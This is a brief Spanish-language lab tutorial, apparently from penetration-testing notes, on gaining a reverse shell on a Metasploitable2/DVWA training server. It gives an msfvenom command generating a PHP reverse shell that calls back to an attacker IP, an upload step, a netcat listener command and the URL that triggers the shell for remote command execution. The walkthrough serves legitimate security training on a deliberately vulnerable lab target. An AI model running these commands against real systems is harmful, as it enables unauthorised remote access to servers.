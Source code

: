 Crear un reverse shell con `msfvenom`:  
`msfvenom -p php/reverse_php LHOST=<IP DEL ATACANTE> LPORT=<ALGUN PUERTO PARA ESCUCHAR> -f raw > msfvenom-shell.php`  

Confirmar que se creó el shell corriendo el comando `ls`.  

Subir el shell al servidor Metasploitable2.  

Abrir otra ventana de terminal para ejecutar una instancia de Netcat. Netcat es una utilidad que va a escuchar por cualquier petición al puerto que definimos anteriormente.  
`nc -lvp <EL PUERTO QUE PUSIMOS ARRIBA>`

Ahora navegar a la página donde se subió el shell. Ejemplo: http://192.168.100.93/dvwa/hackable/uploads/msfvenom-shell.php  
El navegador no debería desplegar nada, pero en la terminal donde tenemos Netcat, vamos a obtener información de que se lograron conectar.  
Ahora se pueden ejecutar comandos remotamente, por ejemplo `ls`.
